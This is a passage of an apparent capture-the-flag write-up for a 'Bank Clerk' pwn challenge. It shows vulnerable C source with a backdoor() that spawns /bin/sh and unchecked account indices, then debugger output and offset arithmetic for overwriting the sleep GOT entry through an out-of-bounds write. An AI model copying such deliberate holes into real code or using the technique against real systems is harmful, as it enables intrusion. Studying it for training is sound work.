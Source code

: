 ```zsh
You win!
Here is your flag: THJCC{P3w-pew_im_4_LiTTI3_parr0t}
```

## Bank Clerk
```c
void backdoor()
{
    system("/bin/sh");
}

int accounts[100];

void deposit(int id)
{
    unsigned int amount;
    printf("Enter the amount to deposit> ");
    scanf("%u", &amount);
    accounts[id] += amount;
    printf("Deposited %u$ to account %d\n", amount, id);
}

void withdraw(int id)
{
    unsigned int amount;
    printf("Enter the amount to withdraw> ");
    scanf("%u", &amount);
    if (amount > accounts[id])
    {
        printf("ERROR! Current balance: %u\n", accounts[id]);
        sleep(1);
    }
    else
    {
        accounts[id] -= amount;
        printf("Withdrew %u$ from account %d\n", amount, id);
    }
}
```
since theres no check on indices, we have **OOB write in deposit and OOB read in withdraw**\
lets assume account array is at `0x555555558080`, backdoor addr offset would be `-0x2e30`\
behind account array lies GOT:
```zsh {hl_lines=12}
pwndbg> tele 0x555555558080-0x100 0x120
# ...
10:0080│  0x555555558000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x3df8
11:0088│  0x555555558008 (_GLOBAL_OFFSET_TABLE_+8) —▸ 0x7ffff7ffe2e0 —▸ 0x555555554000 ◂— 0x10102464c457f
12:0090│  0x555555558010 (_GLOBAL_OFFSET_TABLE_+16) —▸ 0x7ffff7fda2f0 (_dl_runtime_resolve_xsavec) ◂— endbr64
13:0098│  0x555555558018 (puts@got[plt]) —▸ 0x555555555030 ◂— endbr64
14:00a0│  0x555555558020 (__stack_chk_fail@got.plt) —▸ 0x555555555040 ◂— endbr64
15:00a8│  0x555555558028 (system@got[plt]) —▸ 0x555555555050 ◂— endbr64
16:00b0│  0x555555558030 (printf@got[plt]) —▸ 0x555555555060 ◂— endbr64
17:00b8│  0x555555558038 (setvbuf@got[plt]) —▸ 0x555555555070 ◂— endbr64
18:00c0│  0x555555558040 (__isoc99_scanf@got.plt) —▸ 0x555555555080 ◂— endbr64
19:00c8│  0x555555558048 (sleep@got[plt]) —▸ 0x555555555090 ◂— endbr64
1a:00d0│  0x555555558050 (data_start) ◂— 0
```
since sleep is easily accessible in withdraw, lets overwrite that one!\
its index would be `(0x555555558048 - 0x555555558080) // 4 = -14`\
sleep's offset is `-0x2ff0`, so we'll need to add 448 to jump to backdoor
```zsh
```